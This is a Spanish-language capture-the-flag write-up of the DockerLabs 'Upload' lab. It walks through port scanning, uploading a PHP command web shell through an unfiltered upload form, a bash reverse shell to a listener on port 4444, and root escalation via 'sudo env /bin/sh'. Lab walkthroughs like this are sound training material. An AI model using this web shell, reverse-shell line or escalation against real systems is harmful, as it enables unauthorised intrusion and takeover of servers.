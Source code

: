 ```yaml
---
title: DockerLabs - Upload
summary: "Write-up del laboratorio Upload de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, arbitrary file upload, rce, sudo]
media_subpath: "/assets/img/posts/dockerlabs_upload"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 00:42 GMT
Initiating ARP Ping Scan at 00:42
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 00:42, 0.10s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 00:42
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 00:42, 10.25s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65539 (2.622MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nmap -sCV -p80 172.17.0.2                           
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-28 00:42 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000056s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Upload here your file
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.91 seconds
```

## análisis

Comenzamos revisando lo que contiene la pagina principal del puerto 80 del laboratorio, donde nos permiten subir un fichero:

![Desktop View](/20251028014323.webp){: width="972" height="589" .shadow}

## explotación

Tratamos de subir un fichero `.php` que, al pasarle el parámetro `?cmd`, podemos indicar un comando, y si la configuración lo permite, se ejecutará:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ cat shell.php                                                                                           
<?php
        system($_GET['cmd']);
?>
```

Vemos que no hay ningún filtro que nos impida la subida:

![Desktop View](/20251028014545.webp){: width="972" height="589" .shadow}

Ahora buscamos recursos donde puede haber guardado la aplicación nuestro script:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ gobuster dir -u "http://172.17.0.2" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x .txt,.html,.php
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/index.html           (Status: 200) [Size: 1361]
/upload.php           (Status: 200) [Size: 1357]
```

Lo encontramos en la carpeta `uploads`, y vemos que podemos ejecutar comando sin ningún problema:

![Desktop View](/20251028014749.webp){: width="972" height="589" .shadow}

Teniendo esto claro, obtenemos una consola en la máquina con un payload básico de `bash`:

![Desktop View](/20251028014958.webp){: width="972" height="589" .shadow}
```bash
bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/4444 0>%261'
```

Habiéndonos puesto en escucha antes de ejecutar el comando en la web, ahora deberíamos haber obtenido la consola:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Upload]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 46406
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@54d9841b83ec:/var/www/html/uploads$ whoami   
whoami
www-data
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `www-data`, y vemos que tiene asignado que puede ejecutar el binario `/usr/bin/env` como el usuario `root`:

```bash
www-data@54d9841b83ec:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 54d9841b83ec:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 54d9841b83ec:
    (root) NOPASSWD: /usr/bin/env
```

 En [GTFOBins](https://gtfobins.github.io/gtfobins/env/#sudo) nos indican que para obtener acceso como el usuario `root`, podemos hacerlo de la siguiente manera:

![Desktop View](/20251028015325.webp){: width="972" height="589" .shadow}

Ejecutamos el comando que nos indican, y vemos que nos hemos convertido en `root` en la máquina víctima:

```bash
www-data@54d9841b83ec:/var/www/html/uploads$ sudo env /bin/sh
# whoami
root
```